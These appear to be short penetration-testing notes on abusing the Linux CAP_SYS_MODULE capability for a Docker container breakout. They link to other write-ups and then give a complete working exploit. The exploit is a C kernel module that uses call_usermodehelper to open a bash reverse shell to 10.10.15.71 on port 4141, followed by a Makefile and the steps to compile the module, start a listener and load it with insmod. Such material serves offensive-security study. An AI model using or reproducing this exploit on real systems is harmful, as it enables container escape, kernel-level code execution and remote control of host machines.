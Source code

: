 
* [linux capabilities](https://blog.container-solutions.com/linux-capabilities-in-practice), [](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)
* **CAP_SYS_MODULE:** This means that you can insert/remove kernel modules in/from the kernel of the host machine.
* abusing `sys_module` capability
  * Exploit Scripts from [hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#example-with-environment-docker-breakout-2)
  * Orignal Post from [blog.pentesteracademy.com](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd)

### Exploit

**Write a program to invoke a reverse shell with the help of usermode Helper API.**
```c++
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.71/4141 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

**Create a Makefile to compile the kernel module.**
```makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

**Run `make`**

**Start reverse shell listener**

**Execute module `insmod reverse-shell.ko`**
